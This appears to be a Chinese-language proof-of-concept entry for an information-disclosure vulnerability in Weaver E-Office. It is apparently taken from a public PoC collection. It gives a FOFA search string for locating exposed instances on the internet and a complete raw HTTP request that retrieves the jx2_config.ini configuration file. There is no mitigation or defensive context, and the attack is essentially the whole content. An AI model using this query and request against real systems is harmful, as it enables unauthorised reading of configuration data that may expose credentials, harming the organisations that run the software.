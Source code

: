 ## 泛微E-Office-jx2_config存在信息泄露漏洞

## fofa
```
app="泛微-EOffice"
```


## poc
```
GET /building/backmgr/urlpage/mobileurl/configfile/jx2_config.ini HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: LOGIN_LANG=cn; PHPSESSID=265e1c6495a3bd40146196a1a42cd8dd
Upgrade-Insecure-Requests: 1

```

![9dc2b5e9b8b6efe4cff7bcc60bf92bdc](https://github.com/wy876/POC/assets/139549762/d2b8c6c2-e4a4-4f78-86f7-59ede170cac6)
